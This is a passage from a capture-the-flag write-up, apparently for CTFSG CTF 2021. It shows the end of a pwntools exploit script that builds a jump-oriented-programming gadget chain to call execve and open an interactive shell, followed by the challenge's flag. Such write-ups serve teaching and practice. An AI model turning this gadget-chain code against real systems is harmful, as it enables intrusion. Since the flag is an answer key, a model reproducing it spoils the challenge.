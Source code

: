 ```python
payload += p64(xor_rax_rax_jmp_rdx)         # [0x90]
payload += p64(pop_rdx_jmp_rcx)             # [0x98]
payload += p64(constants.SYS_execve)        # [0xa0]
payload += p64(add_rax_rdx_jmp_rcx)         # [0xa8]

# Set rdx = 0x00 & Pwn                      (pop rdx; syscall)
payload += p64(pop_rdx_jmp_rcx)             # [0xb0]
payload += p64(0x00)                        # [0xb8]
payload += p64(syscall)                     # [0xc0]

p.sendlineafter('> ', '2')
p.sendlineafter(': ', flat({0: payload, eip_offset: pop_rsp_rdi_rcx_rdx_jmp_rdx_1}, rsp + context.bytes*3))
p.recvline()
p.interactive()
```

Here is an example of the exploit script in action:

![JOP Pwn](/public/ctfsg-ctf-21/jop_pwn.png)

### Flag

`CTFSG{3aT_5l33p_jMp_pWn_e3a35eed}`
